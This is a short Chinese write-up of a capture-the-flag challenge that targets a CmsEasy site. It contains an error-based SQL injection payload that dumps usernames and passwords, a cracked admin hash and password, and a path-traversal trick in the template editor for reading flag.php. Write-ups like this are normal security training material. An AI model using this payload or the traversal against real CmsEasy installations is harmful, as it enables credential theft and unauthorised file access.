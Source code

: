 
# YeserCMS

* 根据评论里的图片得到网站cms信息，为easycms
> post发送数据到http://0767e6237f134c9f8269fba652766da133a60f2cc9884db5.changame.ichunqiu.com//celive/live/header.php  
> xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',
  (UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password))
   from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>


* 获取到md5加密后的密码
> ff512d4240cbbdeafada404677ccbe61  
> Yeser231
* 登录后台， 进入管理界面->模板->当前模板编辑
> 发现模板数据改不掉，查看接口发现可能每次查看都重新访问文件，  那么我们通过修改request里的参数就可以直接读取falg.php里的信息了。
> 把id参数分别尝试 falg.php , ../flag.php , ../../flag.php


